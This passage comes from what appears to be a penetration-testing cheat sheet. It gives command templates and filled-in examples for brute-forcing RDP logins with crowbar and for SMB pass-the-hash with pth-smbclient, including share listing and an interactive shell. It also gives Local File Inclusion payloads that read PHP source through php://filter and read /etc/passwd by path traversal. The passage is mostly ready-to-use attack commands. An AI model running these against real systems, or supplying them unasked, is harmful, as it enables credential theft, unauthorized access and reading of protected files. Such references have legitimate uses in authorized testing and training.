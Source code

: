 #### Crowbar

crowbar -b rdp &lt;-u/-U user/user\_wordlist&gt; -c/-C &lt;password/password\_wordlist&gt; -s &lt;target\_ip&gt;/32 -v

```text
crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v
```

### Pass the hash

#### Smb pass the hash

**Tool:**

[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

#### Listing shared folders

sudo pth-smbclient --user=&lt;user&gt; --pw-nt-hash -m smb3 -L &lt;target\_ip&gt; \\&lt;target\_ip&gt;\ &lt;hash&gt;

```text
sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

#### Interactive smb shell

sudo pth-smbclient --user=&lt;user&gt; --pw-nt-hash -m smb3 \\&lt;target\_ip&gt;\shared\_folder &lt;hash&gt;

```text
sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

### Web Application

#### Web Remote code

#### LFI \(Local File Inclusion\)

Situation

```text
http://<target>/index.php?parameter=value
```

**How to Test**

```text
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
```

```text
http://<target>/script.php?page=../../../../../../../../etc/passwd
```
